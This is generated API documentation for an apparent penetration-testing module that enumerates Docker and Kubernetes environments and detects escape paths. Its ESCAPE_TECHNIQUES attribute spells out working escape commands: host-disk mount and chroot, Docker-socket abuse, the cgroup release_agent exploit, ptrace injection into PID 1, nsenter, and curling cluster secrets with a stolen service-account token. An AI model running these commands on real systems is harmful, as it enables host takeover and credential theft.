


# `modules.lazyk8s`

> Source: [modules/lazyk8s.py:1](../../modules/lazyk8s.py#L1) | language `py` | coverage 93.3% | [API index](../index.md)

Container and Kubernetes attack module.

Provides enumeration, exploitation, privilege escalation, and escape
techniques for containerized environments and Kubernetes clusters.

Supports Docker, containerd, CRI-O runtimes and Kubernetes API interaction.

## Contents

- **Classes:** [`ContainerResource`](#containerresource), [`ContainerFinding`](#containerfinding), [`DockerEnumerator`](#dockerenumerator), [`K8sEnumerator`](#k8senumerator), [`ContainerEscapeTechniques`](#containerescapetechniques), [`ContainerRuntimeDetector`](#containerruntimedetector)

## Type Diagram



## Call Graph

Solid arrows stay in this module, dashed arrows leave it.



## Classes

<a id="containerresource"></a>

### `ContainerResource`

`class` `dataclass` | [modules/lazyk8s.py:20](../../modules/lazyk8s.py#L20)

Decorators: `@dataclass`

```python
class ContainerResource
```

A discovered container or cluster resource.

**Attributes**

| Name | Type | Default | Description |
|---|---|---|---|
| [`resource_type`](#containerresource-resource_type) | `str` |  |  |
| [`identifier`](#containerresource-identifier) | `str` |  |  |
| [`namespace`](#containerresource-namespace) | `str` | `''` |  |
| [`details`](#containerresource-details) | `dict[str, Any]` | `field(default_factory=dict)` |  |

---

<a id="containerfinding"></a>

### `ContainerFinding`

`class` `dataclass` | [modules/lazyk8s.py:30](../../modules/lazyk8s.py#L30)

Decorators: `@dataclass`

```python
class ContainerFinding
```

A security finding in a container environment.

**Attributes**

| Name | Type | Default | Description |
|---|---|---|---|
| [`resource`](#containerfinding-resource) | `ContainerResource` |  |  |
| [`severity`](#containerfinding-severity) | `str` |  |  |
| [`title`](#containerfinding-title) | `str` |  |  |
| [`description`](#containerfinding-description) | `str` |  |  |
| [`mitre_technique`](#containerfinding-mitre_technique) | `str` | `''` |  |
| [`exploitation`](#containerfinding-exploitation) | `str` | `''` |  |

---

<a id="dockerenumerator"></a>

### `DockerEnumerator`

`class` | [modules/lazyk8s.py:41](../../modules/lazyk8s.py#L41)

```python
class DockerEnumerator
```

Enumerate Docker host and containers.

**Members**

| Member | Kind | Summary |
|---|---|---|
| [`__init__`](#dockerenumerator-__init__) | constructor |  |
| [`is_socket_accessible`](#dockerenumerator-is_socket_accessible) | method | Check if the Docker socket is readable/writable. |
| [`list_containers`](#dockerenumerator-list_containers) | method | List all containers with extended information. |
| [`list_images`](#dockerenumerator-list_images) | method | List all Docker images. |
| [`inspect_container`](#dockerenumerator-inspect_container) | method | Get detailed configuration of a container (privileged, mounts, capabilities). |
| [`check_privileged_containers`](#dockerenumerator-check_privileged_containers) | method | Find containers running with --privileged flag. |
| [`check_sensitive_mounts`](#dockerenumerator-check_sensitive_mounts) | method | Find containers with sensitive host path mounts. |
| [`check_docker_socket_mount`](#dockerenumerator-check_docker_socket_mount) | method | Find containers with the Docker socket mounted (escape vector). |
| [`check_capabilities`](#dockerenumerator-check_capabilities) | method | Find containers with dangerous Linux capabilities. |
| [`full_check`](#dockerenumerator-full_check) | method | Execute all Docker security checks and return aggregated results. |

<a id="dockerenumerator-__init__"></a>

#### `DockerEnumerator.__init__`

`constructor` | [modules/lazyk8s.py:44](../../modules/lazyk8s.py#L44)

```python
def __init__(self, socket_path: str = '/var/run/docker.sock') -> None
```

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `socket_path` | `str` | `'/var/run/docker.sock'` |  |

*Called by:* [`ContainerCommandSet.do_docker_enum`](cli.commands.containers.py.md#containercommandset-do_docker_enum)

<a id="dockerenumerator-is_socket_accessible"></a>

#### `DockerEnumerator.is_socket_accessible`

`method` | [modules/lazyk8s.py:47](../../modules/lazyk8s.py#L47)

```python
def is_socket_accessible(self) -> bool
```

Check if the Docker socket is readable/writable.

**Returns:** `bool`

*Called by:* [`DockerEnumerator.full_check`](#dockerenumerator-full_check), [`DockerEnumerator.inspect_container`](#dockerenumerator-inspect_container), [`DockerEnumerator.list_containers`](#dockerenumerator-list_containers), [`DockerEnumerator.list_images`](#dockerenumerator-list_images)

<a id="dockerenumerator-list_containers"></a>

#### `DockerEnumerator.list_containers`

`method` | [modules/lazyk8s.py:70](../../modules/lazyk8s.py#L70)

```python
def list_containers(self) -> list[dict[str, Any]]
```

List all containers with extended information.

**Returns:** `list[dict[str, Any]]`

*Calls:* [`DockerEnumerator.is_socket_accessible`](#dockerenumerator-is_socket_accessible)

*Called by:* [`DockerEnumerator.check_capabilities`](#dockerenumerator-check_capabilities), [`DockerEnumerator.check_docker_socket_mount`](#dockerenumerator-check_docker_socket_mount), [`DockerEnumerator.check_privileged_containers`](#dockerenumerator-check_privileged_containers), [`DockerEnumerator.check_sensitive_mounts`](#dockerenumerator-check_sensitive_mounts), [`DockerEnumerator.full_check`](#dockerenumerator-full_check)

<a id="dockerenumerator-list_images"></a>

#### `DockerEnumerator.list_images`

`method` | [modules/lazyk8s.py:94](../../modules/lazyk8s.py#L94)

```python
def list_images(self) -> list[dict[str, Any]]
```

List all Docker images.

**Returns:** `list[dict[str, Any]]`

*Calls:* [`DockerEnumerator.is_socket_accessible`](#dockerenumerator-is_socket_accessible)

*Called by:* [`DockerEnumerator.full_check`](#dockerenumerator-full_check)

<a id="dockerenumerator-inspect_container"></a>

#### `DockerEnumerator.inspect_container`

`method` | [modules/lazyk8s.py:118](../../modules/lazyk8s.py#L118)

```python
def inspect_container(self, container_id: str) -> dict[str, Any] | None
```

Get detailed configuration of a container (privileged, mounts, capabilities).

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `container_id` | `str` |  |  |

**Returns:** `dict[str, Any] | None`

*Calls:* [`DockerEnumerator.is_socket_accessible`](#dockerenumerator-is_socket_accessible)

*Called by:* [`DockerEnumerator.check_capabilities`](#dockerenumerator-check_capabilities), [`DockerEnumerator.check_docker_socket_mount`](#dockerenumerator-check_docker_socket_mount), [`DockerEnumerator.check_privileged_containers`](#dockerenumerator-check_privileged_containers), [`DockerEnumerator.check_sensitive_mounts`](#dockerenumerator-check_sensitive_mounts)

<a id="dockerenumerator-check_privileged_containers"></a>

#### `DockerEnumerator.check_privileged_containers`

`method` | [modules/lazyk8s.py:137](../../modules/lazyk8s.py#L137)

```python
def check_privileged_containers(self) -> list[dict[str, Any]]
```

Find containers running with --privileged flag.

**Returns:** `list[dict[str, Any]]`

*Calls:* [`DockerEnumerator.inspect_container`](#dockerenumerator-inspect_container), [`DockerEnumerator.list_containers`](#dockerenumerator-list_containers)

*Called by:* [`DockerEnumerator.full_check`](#dockerenumerator-full_check)

<a id="dockerenumerator-check_sensitive_mounts"></a>

#### `DockerEnumerator.check_sensitive_mounts`

`method` | [modules/lazyk8s.py:162](../../modules/lazyk8s.py#L162)

```python
def check_sensitive_mounts(self) -> list[dict[str, Any]]
```

Find containers with sensitive host path mounts.

**Returns:** `list[dict[str, Any]]`

*Calls:* [`DockerEnumerator.inspect_container`](#dockerenumerator-inspect_container), [`DockerEnumerator.list_containers`](#dockerenumerator-list_containers)

*Called by:* [`DockerEnumerator.full_check`](#dockerenumerator-full_check)

<a id="dockerenumerator-check_docker_socket_mount"></a>

#### `DockerEnumerator.check_docker_socket_mount`

`method` | [modules/lazyk8s.py:196](../../modules/lazyk8s.py#L196)

```python
def check_docker_socket_mount(self) -> list[dict[str, Any]]
```

Find containers with the Docker socket mounted (escape vector).

**Returns:** `list[dict[str, Any]]`

*Calls:* [`DockerEnumerator.inspect_container`](#dockerenumerator-inspect_container), [`DockerEnumerator.list_containers`](#dockerenumerator-list_containers)

*Called by:* [`DockerEnumerator.full_check`](#dockerenumerator-full_check)

<a id="dockerenumerator-check_capabilities"></a>

#### `DockerEnumerator.check_capabilities`

`method` | [modules/lazyk8s.py:217](../../modules/lazyk8s.py#L217)

```python
def check_capabilities(self) -> list[dict[str, Any]]
```

Find containers with dangerous Linux capabilities.

**Returns:** `list[dict[str, Any]]`

*Calls:* [`DockerEnumerator.inspect_container`](#dockerenumerator-inspect_container), [`DockerEnumerator.list_containers`](#dockerenumerator-list_containers)

*Called by:* [`DockerEnumerator.full_check`](#dockerenumerator-full_check)

<a id="dockerenumerator-full_check"></a>

#### `DockerEnumerator.full_check`

`method` | [modules/lazyk8s.py:250](../../modules/lazyk8s.py#L250)

```python
def full_check(self) -> dict[str, Any]
```

Execute all Docker security checks and return aggregated results.

**Returns:** `dict[str, Any]`

*Calls:* [`DockerEnumerator.check_capabilities`](#dockerenumerator-check_capabilities), [`DockerEnumerator.check_docker_socket_mount`](#dockerenumerator-check_docker_socket_mount), [`DockerEnumerator.check_privileged_containers`](#dockerenumerator-check_privileged_containers), [`DockerEnumerator.check_sensitive_mounts`](#dockerenumerator-check_sensitive_mounts), [`DockerEnumerator.is_socket_accessible`](#dockerenumerator-is_socket_accessible), [`DockerEnumerator.list_containers`](#dockerenumerator-list_containers), [`DockerEnumerator.list_images`](#dockerenumerator-list_images)

*Called by:* [`ContainerCommandSet.do_docker_enum`](cli.commands.containers.py.md#containercommandset-do_docker_enum)

---

<a id="k8senumerator"></a>

### `K8sEnumerator`

`class` | [modules/lazyk8s.py:264](../../modules/lazyk8s.py#L264)

```python
class K8sEnumerator
```

Enumerate Kubernetes clusters via API or kubeconfig.

**Members**

| Member | Kind | Summary |
|---|---|---|
| [`__init__`](#k8senumerator-__init__) | constructor |  |
| [`list_pods`](#k8senumerator-list_pods) | method | List pods in all namespaces or a specific namespace. |
| [`list_namespaces`](#k8senumerator-list_namespaces) | method | List all namespaces. |
| [`list_secrets`](#k8senumerator-list_secrets) | method | List secrets (without decoding values by default). |
| [`list_service_accounts`](#k8senumerator-list_service_accounts) | method | List service accounts and their attached roles. |
| [`check_rbac`](#k8senumerator-check_rbac) | method | Check current user's RBAC permissions. |
| [`check_pod_escape_vectors`](#k8senumerator-check_pod_escape_vectors) | method | Check for pod escape vectors in the current pod. |
| [`full_check`](#k8senumerator-full_check) | method | Execute all Kubernetes security checks. |

<a id="k8senumerator-__init__"></a>

#### `K8sEnumerator.__init__`

`constructor` | [modules/lazyk8s.py:267](../../modules/lazyk8s.py#L267)

```python
def __init__(self, kubeconfig: str = '', token: str = '', api_server: str = '') -> None
```

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `kubeconfig` | `str` | `''` |  |
| `token` | `str` | `''` |  |
| `api_server` | `str` | `''` |  |

*Called by:* [`ContainerCommandSet.do_k8s_enum`](cli.commands.containers.py.md#containercommandset-do_k8s_enum), [`ContainerCommandSet.do_k8s_pods`](cli.commands.containers.py.md#containercommandset-do_k8s_pods), [`ContainerCommandSet.do_k8s_secrets`](cli.commands.containers.py.md#containercommandset-do_k8s_secrets)

<a id="k8senumerator-list_pods"></a>

#### `K8sEnumerator.list_pods`

`method` | [modules/lazyk8s.py:366](../../modules/lazyk8s.py#L366)

```python
def list_pods(self, namespace: str = '') -> list[dict[str, Any]]
```

List pods in all namespaces or a specific namespace.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `namespace` | `str` | `''` |  |

**Returns:** `list[dict[str, Any]]`

*Called by:* [`ContainerCommandSet.do_k8s_pods`](cli.commands.containers.py.md#containercommandset-do_k8s_pods), [`K8sEnumerator.full_check`](#k8senumerator-full_check)

<a id="k8senumerator-list_namespaces"></a>

#### `K8sEnumerator.list_namespaces`

`method` | [modules/lazyk8s.py:390](../../modules/lazyk8s.py#L390)

```python
def list_namespaces(self) -> list[str]
```

List all namespaces.

**Returns:** `list[str]`

*Called by:* [`K8sEnumerator.full_check`](#k8senumerator-full_check)

<a id="k8senumerator-list_secrets"></a>

#### `K8sEnumerator.list_secrets`

`method` | [modules/lazyk8s.py:410](../../modules/lazyk8s.py#L410)

```python
def list_secrets(self, namespace: str = '') -> list[dict[str, Any]]
```

List secrets (without decoding values by default).

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `namespace` | `str` | `''` |  |

**Returns:** `list[dict[str, Any]]`

*Called by:* [`ContainerCommandSet.do_k8s_secrets`](cli.commands.containers.py.md#containercommandset-do_k8s_secrets), [`K8sEnumerator.full_check`](#k8senumerator-full_check)

<a id="k8senumerator-list_service_accounts"></a>

#### `K8sEnumerator.list_service_accounts`

`method` | [modules/lazyk8s.py:462](../../modules/lazyk8s.py#L462)

```python
def list_service_accounts(self, namespace: str = '') -> list[dict[str, Any]]
```

List service accounts and their attached roles.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `namespace` | `str` | `''` |  |

**Returns:** `list[dict[str, Any]]`

*Called by:* [`K8sEnumerator.full_check`](#k8senumerator-full_check)

<a id="k8senumerator-check_rbac"></a>

#### `K8sEnumerator.check_rbac`

`method` | [modules/lazyk8s.py:498](../../modules/lazyk8s.py#L498)

```python
def check_rbac(self) -> dict[str, Any]
```

Check current user's RBAC permissions.

**Returns:** `dict[str, Any]`

*Called by:* [`K8sEnumerator.full_check`](#k8senumerator-full_check)

<a id="k8senumerator-check_pod_escape_vectors"></a>

#### `K8sEnumerator.check_pod_escape_vectors`

`method` | [modules/lazyk8s.py:530](../../modules/lazyk8s.py#L530)

```python
def check_pod_escape_vectors(self) -> list[ContainerFinding]
```

Check for pod escape vectors in the current pod.

**Returns:** `list[ContainerFinding]`

*Calls:* [`ContainerFinding`](#containerfinding), [`ContainerResource`](#containerresource)

*Called by:* [`K8sEnumerator.full_check`](#k8senumerator-full_check)

<a id="k8senumerator-full_check"></a>

#### `K8sEnumerator.full_check`

`method` | [modules/lazyk8s.py:582](../../modules/lazyk8s.py#L582)

```python
def full_check(self, sessions_dir: str = 'sessions') -> dict[str, Any]
```

Execute all Kubernetes security checks.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `sessions_dir` | `str` | `'sessions'` |  |

**Returns:** `dict[str, Any]`

*Calls:* [`K8sEnumerator.check_pod_escape_vectors`](#k8senumerator-check_pod_escape_vectors), [`K8sEnumerator.check_rbac`](#k8senumerator-check_rbac), [`K8sEnumerator.list_namespaces`](#k8senumerator-list_namespaces), [`K8sEnumerator.list_pods`](#k8senumerator-list_pods), [`K8sEnumerator.list_secrets`](#k8senumerator-list_secrets), [`K8sEnumerator.list_service_accounts`](#k8senumerator-list_service_accounts)

*Called by:* [`ContainerCommandSet.do_k8s_enum`](cli.commands.containers.py.md#containercommandset-do_k8s_enum)

---

<a id="containerescapetechniques"></a>

### `ContainerEscapeTechniques`

`class` | [modules/lazyk8s.py:624](../../modules/lazyk8s.py#L624)

```python
class ContainerEscapeTechniques
```

Collection of container escape techniques and detection.

**Attributes**

| Name | Type | Default | Description |
|---|---|---|---|
| [`ESCAPE_TECHNIQUES`](#containerescapetechniques-escape_techniques) |  | `[{'name': 'privileged_container_host_mount', 'description': 'Mount host filesystem from privileged container', 'command': 'mount /dev/sda1 /mnt && chroot /mnt', 'mitre': 'T1610', 'requires': ['privileged']}, {'name': 'docker_socket_escape', 'description': 'Use mounted Docker socket to run privileged container', 'command': 'docker run -v /:/host -it --privileged --pid=host alpine chroot /host', 'mitre': 'T1610', 'requires': ['docker_socket']}, {'name': 'cgroup_release_agent', 'description': 'Escape via cgroup release_agent (CVE-2022-0492)', 'command': 'mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x && echo 1 > /tmp/cgrp/x/notify_on_release && host_path=$(sed -n \'s/.*\\perdir=\\([^,]*\\).*/\\1/p\' /etc/mtab) && echo "$host_path/cmd" > /tmp/cgrp/release_agent && echo \'#!/bin/sh\' > /cmd && echo "id > $host_path/output" >> /cmd && chmod +x /cmd && sh -c "echo \\$\\$ > /tmp/cgrp/x/cgroup.procs"', 'mitre': 'T1611', 'requires': ['SYS_ADMIN']}, {'name': 'cap_sys_ptrace', 'description': 'Inject code into host process via ptrace (SYS_PTRACE cap)', 'command': 'gdb -p 1 -batch -ex \'call (void)system("id >> /tmp/pwned")\'', 'mitre': 'T1055', 'requires': ['SYS_PTRACE']}, {'name': 'nsenter_host', 'description': 'nsenter into host namespaces when --pid=host', 'command': 'nsenter --target 1 --mount --uts --ipc --net --pid -- bash', 'mitre': 'T1611', 'requires': ['host_pid']}, {'name': 'k8s_service_account_token_abuse', 'description': 'Use mounted service account token to access K8s API', 'command': 'TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) && APISERVER=https://kubernetes.default && curl -sk -H "Authorization: Bearer $TOKEN" $APISERVER/api/v1/secrets', 'mitre': 'T1528', 'requires': ['k8s_sa_token']}]` |  |

**Members**

| Member | Kind | Summary |
|---|---|---|
| [`detect_current_environment`](#containerescapetechniques-detect_current_environment) | staticmethod | Detect if running inside a container and identify escape opportunities. |

<a id="containerescapetechniques-detect_current_environment"></a>

#### `ContainerEscapeTechniques.detect_current_environment`

`staticmethod` | [modules/lazyk8s.py:684](../../modules/lazyk8s.py#L684)

Decorators: `@staticmethod`

```python
def detect_current_environment() -> dict[str, Any]
```

Detect if running inside a container and identify escape opportunities.

**Returns:** `dict[str, Any]`

*Called by:* [`ContainerCommandSet.do_container_escape`](cli.commands.containers.py.md#containercommandset-do_container_escape), [`ContainerRuntimeDetector.auto_detect_all`](#containerruntimedetector-auto_detect_all)

---

<a id="containerruntimedetector"></a>

### `ContainerRuntimeDetector`

`class` | [modules/lazyk8s.py:759](../../modules/lazyk8s.py#L759)

```python
class ContainerRuntimeDetector
```

Auto-detect container runtime and available escape primitives.

Supports: Docker, containerd, CRI-O, Podman, LXC/LXD, systemd-nspawn.

**Attributes**

| Name | Type | Default | Description |
|---|---|---|---|
| [`RUNTIME_SIGNATURES`](#containerruntimedetector-runtime_signatures) |  | `{'docker': {'files': ['/.dockerenv', '/var/run/docker.sock'], 'cgroup': 'docker', 'env_var': ('container', 'docker')}, 'containerd': {'files': ['/run/containerd/containerd.sock'], 'cgroup': 'containerd', 'mounts': ['/run/containerd']}, 'crio': {'files': ['/var/run/crio/crio.sock'], 'cgroup': 'crio', 'mounts': ['/var/run/crio']}, 'podman': {'files': ['/run/podman/podman.sock', '/run/user/*/podman/podman.sock'], 'cgroup': 'libpod', 'processes': ['podman', 'conmon']}, 'lxc': {'files': ['/dev/lxd/sock'], 'cgroup': 'lxc', 'env_var': ('container', 'lxc')}, 'kubernetes': {'files': ['/var/run/secrets/kubernetes.io/serviceaccount/token'], 'cgroup': 'kubepods', 'mounts': ['/var/run/secrets/kubernetes.io']}, 'systemd_nspawn': {'cgroup': 'nspawn', 'env_var': ('container', 'systemd-nspawn')}}` |  |

**Members**

| Member | Kind | Summary |
|---|---|---|
| [`detect_runtime`](#containerruntimedetector-detect_runtime) | staticmethod | Detect container runtime from multiple indicators. |
| [`detect_mounts`](#containerruntimedetector-detect_mounts) | staticmethod | Detect dangerous mounts in the current container. |
| [`detect_dangerous_capabilities`](#containerruntimedetector-detect_dangerous_capabilities) | staticmethod | Detect dangerous Linux capabilities in the current container. |
| [`auto_detect_all`](#containerruntimedetector-auto_detect_all) | staticmethod | Run comprehensive container escape auto-detection. |

<a id="containerruntimedetector-detect_runtime"></a>

#### `ContainerRuntimeDetector.detect_runtime`

`staticmethod` | [modules/lazyk8s.py:803](../../modules/lazyk8s.py#L803)

Decorators: `@staticmethod`

```python
def detect_runtime() -> dict[str, Any]
```

Detect container runtime from multiple indicators.

**Returns:** `dict[str, Any]` - Dict with runtime info including name, confidence, and indicators.

*Called by:* [`ContainerRuntimeDetector.auto_detect_all`](#containerruntimedetector-auto_detect_all)

<a id="containerruntimedetector-detect_mounts"></a>

#### `ContainerRuntimeDetector.detect_mounts`

`staticmethod` | [modules/lazyk8s.py:874](../../modules/lazyk8s.py#L874)

Decorators: `@staticmethod`

```python
def detect_mounts() -> dict[str, list[str]]
```

Detect dangerous mounts in the current container.

**Returns:** `dict[str, list[str]]` - Dict with categories of dangerous mounts found.

*Called by:* [`ContainerRuntimeDetector.auto_detect_all`](#containerruntimedetector-auto_detect_all)

<a id="containerruntimedetector-detect_dangerous_capabilities"></a>

#### `ContainerRuntimeDetector.detect_dangerous_capabilities`

`staticmethod` | [modules/lazyk8s.py:921](../../modules/lazyk8s.py#L921)

Decorators: `@staticmethod`

```python
def detect_dangerous_capabilities() -> list[str]
```

Detect dangerous Linux capabilities in the current container.

**Returns:** `list[str]` - List of dangerous capabilities found.

*Called by:* [`ContainerRuntimeDetector.auto_detect_all`](#containerruntimedetector-auto_detect_all)

<a id="containerruntimedetector-auto_detect_all"></a>

#### `ContainerRuntimeDetector.auto_detect_all`

`staticmethod` | [modules/lazyk8s.py:992](../../modules/lazyk8s.py#L992)

Decorators: `@staticmethod`

```python
def auto_detect_all() -> dict[str, Any]
```

Run comprehensive container escape auto-detection.

Combines runtime detection, environment detection, mount analysis,
and capability enumeration into a single report.

**Returns:** `dict[str, Any]` - Comprehensive assessment dict.

*Calls:* [`ContainerEscapeTechniques.detect_current_environment`](#containerescapetechniques-detect_current_environment), [`ContainerRuntimeDetector.detect_dangerous_capabilities`](#containerruntimedetector-detect_dangerous_capabilities), [`ContainerRuntimeDetector.detect_mounts`](#containerruntimedetector-detect_mounts), [`ContainerRuntimeDetector.detect_runtime`](#containerruntimedetector-detect_runtime)

*Called by:* [`ContainerCommandSet.do_container_detect`](cli.commands.containers.py.md#containercommandset-do_container_detect)

---
